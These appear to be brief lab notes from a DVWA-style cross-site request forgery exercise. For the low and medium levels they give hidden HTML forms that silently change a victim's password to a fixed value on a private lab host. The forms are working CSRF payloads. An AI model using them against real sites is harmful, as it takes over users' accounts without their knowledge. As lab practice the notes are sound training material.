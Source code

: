 IMPOSIBLE

# CSRF

## LOW

```bash
<form action="http://192.168.56.103/vulnerabilities/csrf/" method="GET">
	<input type="hidden" AUTOCOMPLETE="off" name="password_new" value="desdes">
	<input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="desdes">
	<input type="submit" value="Change" name="Change">
</form>
```

-> pollo.html

## MEDIUM

```html
<form action="http://192.168.56.103/vulnerabilities/csrf/" method="GET">
	<input type="hidden" AUTOCOMPLETE="off" name="password_new" value="desdes">
	<input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="desdes">
	<input type="submit" value="Change" name="Change">
</form>
```

-> 127.0.0.1.html